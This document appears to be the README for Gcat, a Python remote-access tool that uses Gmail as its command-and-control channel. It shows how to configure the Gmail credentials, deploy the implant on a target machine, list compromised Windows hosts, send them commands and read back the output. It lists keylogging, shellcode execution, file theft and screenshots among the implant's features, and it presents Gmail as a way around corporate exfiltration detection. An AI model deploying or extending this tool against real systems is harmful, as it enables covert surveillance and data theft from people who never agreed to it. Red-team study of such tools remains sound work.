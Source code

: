 
Gcat
=======

Website
-------

<https://github.com/adhdproject/gcat>

Description
-----------

I'm sure we're all aware of the venerable netcat.  Gcat is a close cousin
to netcat.  Rather than simply piping communications over plaintext tcp; gcat
communicates using gmail.  The idea here is that many companies might detect
suspicious data exfiltration.  Or might block direct communications out. 
But if these companies allow their users to access gmail, we can pipe out
through that.


Install Location
----------------

`/opt/gcat/`

Usage
-----

To run the script, first cd to the gcat directory.

`~$` **`cd /opt/gcat`**

And run the application

`/opt/gcat$` **`python ./gcat.py`**

This will show you the help dialog.

		
															dP   
													88   
						.d8888b. .d8888b. .d8888b. d8888P 
						88'  `88 88'  `"" 88'  `88   88   
						88.  .88 88.  ... 88.  .88   88   
						`8888P88 `88888P' `88888P8   dP   
							.88                          
						d8888P  
		
		
						.__....._             _.....__,
							.": o :':         ;': o :".
							`. `-' .'.       .'. `-' .'   
							`---'             `---'  
		
					_...----...      ...   ...      ...----..._
				.-'__..-''----    `.  `"`  .'    ----'''-..__`-.
				'.-'   _.--'''       `-._.-'       ''''--._   `-.`
				'  .-"'                  :                  `"-.  `
				'   `.              _.'"'._              .'   `
						`.       ,.-'"       "'-.,       .'
						`.                           .'
					jgs    `-._                   _.-'
								`"'--...___...--'"`
		
							...IM IN YUR COMPUTERZ...
		
								WATCHIN YUR SCREENZ
		
		optional arguments:
		-h, --help            show this help message and exit
		-v, --version         show program's version number and exit
		-id ID                Client to target
		-jobid JOBID          Job id to retrieve
		
		-list                 List available clients
		-info                 Retrieve info on specified client
		
		Commands:
		Commands to execute on an implant
		
		-cmd CMD              Execute a system command
		-download PATH        Download a file from a clients system
		-upload SRC DST       Upload a file to the clients system
		-exec-shellcode FILE  Execute supplied shellcode on a client
		-screenshot           Take a screenshot
		-lock-screen          Lock the clients screen
		-force-checkin        Force a check in
		-start-keylogger      Start keylogger
		-stop-keylogger       Stop keylogger
		
		Meow!
		




Gcat works in two parts.		

Example 1: Deploying an Implant
-------------------------------

Configuring gcat and its implant is quite simple.  You need to have a
gmail account that you plan to use.  Then simply pop the username and
password into the two scripts gcat.py and implant.py as the "gmail_user"
and "gmail_pwd" variables.  

		#########################################
		gmail_user = 'gcat.is.the.shit@gmail.com'
		gmail_pwd = 'veryc00lp@ssw0rd'
		server = 'smtp.gmail.com'
		server_port = 587
		#########################################

After you have set both gcat.py and implant.py to be properly configured
you can then run the implant on a target machine.

It's just a simple python script.

Example 2: Running a Command & Retrieving Output
------------------------------------------------

NOTE: Make sure that you have configured your gmail account to work with "less secure apps."  To get instructions on how to do that (it's easy, I promise) go here: https://support.google.com/accounts/answer/6010255?hl=en


Once you have an implant or two running you can control them from gcat.py.
To start we will want to get the list of all attached implants and their ids.
To do this run gcat.py with the -list option.

`/opt/gcat$` **`python ./gcat.py -list`**

		f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
		90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86

Now that we've got a list of attached implants, let's send a command to one.

`/opt/gcat$` **`python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'`**

		[*] Command sent successfully with jobid: SH3C4gv

Outstanding.  As you can see, we had to specify the id in conjunction with 
the issuance of our command.  This might seem weird to you.  It certainly is
different from traditional netcat.  But think of the id as something akin
to the traditional host.

We do need to send another request in order to retrieve the output from
the command.  That's what the job id is for.

`/opt/gcat$` **`python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv`**

		DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
		JOBID: SH3C4gv
		FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
		CMD: 'ipconfig /all'
		
		
		Windows IP Configuration
		
				Host Name . . . . . . . . . . . . : unknown-2d44b52
				Primary Dns Suffix  . . . . . . . : 
				Node Type . . . . . . . . . . . . : Unknown
				IP Routing Enabled. . . . . . . . : No
				WINS Proxy Enabled. . . . . . . . : No
		
		-- SNIP -

There you go.  That's the basic usage of Gcat.
